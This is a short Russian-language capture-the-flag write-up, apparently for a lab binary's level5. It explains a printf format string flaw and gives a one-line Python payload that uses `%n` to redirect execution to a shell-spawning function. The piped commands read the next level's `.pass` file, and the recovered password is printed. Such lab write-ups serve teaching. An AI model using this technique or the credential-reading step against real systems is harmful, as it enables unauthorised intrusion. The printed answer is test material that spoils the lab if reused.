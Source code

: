 Программа состоит из трех функций:
* `main`
* `n`, которая вызывается из `main`
* `o`, которая вообще не вызывается

Нам нужно заставить программу исполнить функцию `o` , ведь именно она запускает программную оболочку. Мы замечаем, что имеющийся вызов к `printf` с непроверенным пользовательским кодом делает программу уязвимой к атакам [uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string). 

Нам остается перезаписать сохраненный на стеке `eip`  регистр так, чтобы по завершении функции  `n`  управления не возвращалось  к `main`, а переходило к функции  `o`.

Функция `o` находится по адресу `0x080484a4`, что соответствует числу `134513828` в десятичной системе. Как и в level3, буфер, содержащий форматную строку, находятся на расстоянии в `0x218-0x208=0x10` байтов от вершины стека. 

Итого,
```sh
$ (python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"'; echo 'echo start; cd ..; cat level6/.pass') | ./level5 > /tmp/level5_out ; cat /tmp/level5_out | grep -A10 -i start
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```